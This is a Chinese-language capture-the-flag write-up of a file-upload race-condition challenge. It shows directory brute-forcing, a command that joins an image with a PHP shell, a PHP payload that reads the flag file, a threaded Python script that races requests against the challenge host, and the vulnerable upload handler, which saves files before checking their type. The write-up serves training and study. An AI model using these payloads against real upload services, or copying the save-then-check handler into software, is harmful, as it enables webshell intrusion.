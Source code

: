 ### wzsc_文件上传-adworld

首先打开页面是一个upload，思路就是上传图片码/找黑名单还是白名单过滤/看能不能暴露处文件路径



首先随便上传一个php的shell，没有任何回显，访问也显示没有路径



接着使用gobuster直接目录爆破，爆出了upload的子目录

![image-20240910172029402](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240910172029402.png)

看upload子目录，发现刚才的shell并没有传上来，怀疑是被杀了/被过滤了，需要进一步测试

穿上去若干个格式文档，发现只有png没有被过滤，（还有jpg



首先尝试php上传的png的http改造，失败

接下来尝试图片码拼接，使用命令拼接后访问失败，应该服务器禁止了php的解析

```
cat 1.jpg one_shell.php > 123.jpg
```

![image-20240910175104755](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240910175104755.png)



存在极大可能有检测机制，那么我们可以想到这极有可能是典型的文件上传之条件竞争

我们的思路是在被杀死之前，上传一个php码，这个码的目的是写入另一个php文件，使得写入的码可以长时间存在，并抢在被杀死前访问文件。

123.php：

```
<?php show_source('../flag.php');?>
```

首先在brup中，进行持续写入

然后继续用brup构造包/或者写一个python脚本

```
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed
import time

# 目标URL
url = "http://61.147.171.105:63047/upload/123.php"

# 定义一个函数来发送GET请求
def send_request():
    try:
        response = requests.get(url)
        if response.status_code == 200:
            print(f"请求成功: {response.url}")
            return True
        else:
            print(f"请求失败，状态码: {response.status_code}")
            return False
    except requests.RequestException as e:
        print(f"请求异常: {e}")
        return False

# 定义一个函数来管理并发请求
def manage_requests():
    with ThreadPoolExecutor(max_workers=100) as executor:
        futures = [executor.submit(send_request) for _ in range(100)]
        for future in as_completed(futures):
            if future.result():
                print("至少有一个请求成功，停止其他请求")
                break

if __name__ == "__main__":
    while True:
        manage_requests()
        print("等待2秒后重试...")
        time.sleep(2)

```



或者思路2，按照wp的不是直接php运行flag，而是再写一个php之后连入蚁剑。



事后可以发现源码其实过滤很少，只是杀的快

```
<?php
    $allowtype = array("txt","jpeg","bmv","doc","docx","gif","png","jpg");
    $size = 10000000;
    $path = "./upload/";
 
    $filename = $_FILES['file']['name'];
 
    if (is_uploaded_file($_FILES['file']['tmp_name'])){
        if (!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
            exit();
        }   #直接保存
    } else {
        exit();
    }
 
    $newfile = $path.$filename;
 
    if ($_FILES['file']['error'] > 0){
        unlink($newfile);
        exit();
    } #发现文件类型不符合就删除
 
    $ext = array_pop(explode(".",$_FILES['file']['name']));
    if (!in_array($ext,$allowtype)){
        unlink($newfile);
        exit(); #发现文件类型不符合就删除
    }
?>
```

